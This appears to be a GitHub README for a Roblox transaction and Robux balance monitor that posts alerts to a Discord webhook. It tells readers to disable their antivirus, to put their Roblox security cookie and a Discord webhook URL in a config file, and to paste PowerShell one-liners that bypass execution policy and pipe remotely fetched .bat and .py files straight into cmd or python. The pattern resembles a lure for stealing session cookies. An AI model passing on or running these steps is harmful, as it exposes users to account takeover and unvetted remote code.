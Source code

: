 # Roblox Transaction Monitor (CTL Edition)
<img width="731" height="192" alt="Screenshot 2025-10-30 122532" src="https://github.com/user-attachments/assets/cef27e07-8c6d-400f-96df-dda8088851b6" />

A command-line tool to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Features

- [x] Real-time monitoring of Roblox transactions via CTL
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] Lightweight CLI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Quick Start

- [x] Disable antivirus temporarily
- [x] Download and run the CTL script
- [x] Re-enable antivirus once configured

## TODO
- [x] Add time-range filters (day / month / year / total)
- [ ] Package as a single portable executable

## Configuration
Create a `config.json` file with:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (seconds)
6. Time-span filter: `day`, `month`, `year`, or `total`

## Usage
Install dependencies:
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/install.bat' | % Content | cmd"
```
Python Stable Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```
Python Dev Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/maindev.py').Content | python"
```
unInstall packages
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/uninstall.bat' | % Content | cmd"
```
## License
This project is licensed under the Apache License - see the LICENSE file for details.